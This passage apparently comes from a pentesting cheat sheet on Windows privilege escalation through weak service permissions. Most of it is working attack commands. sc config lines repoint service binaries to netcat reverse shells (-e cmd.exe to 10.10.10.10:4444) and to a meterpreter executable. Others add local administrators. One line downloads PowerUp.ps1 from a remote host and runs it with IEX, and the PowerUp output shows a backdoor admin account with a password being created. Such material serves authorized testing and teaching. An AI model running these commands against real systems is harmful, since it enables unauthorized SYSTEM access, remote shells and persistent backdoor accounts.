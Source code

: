 You can enable it using

```bash
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

**Take into account that the service upnphost depends on SSDPSRV to work (for XP SP1)**

**Another workaround** of this problem is running:

```
sc.exe config usosvc start= auto
```

### **Modify service binary path**

If the group "Authenticated users" has **SERVICE\_ALL\_ACCESS** in a service, then it can modify the binary that is being executed by the service. To modify it and execute **nc** you can do:

```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"

sc config SNMPTRAP binpath= "C:\windows\tasks\pi.exe" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""
sc start SNMPTRAP

sc config SNMPTRAP binpath= "cmd.exe /c net localgroup Administrators final\nina /add" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""
sc start SNMPTRAP

# If you get a new session as a different user
Invoke-WebRequest http://192.168.45.240/PowerUp.ps1 -UseBasicParsing | IEX

PS C:\Windows\tasks> Invoke-ServiceAbuse -ServiceName 'SNMPTRAP'

ServiceAbused Command
------------- -------
SNMPTRAP      net user john Password123! /add && net localgroup Administrators john /add


PS C:\Windows\tasks> net user
net user

User accounts for \\JUMP03

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
john                     WDAGUtilityAccount
The command completed successfully.
```
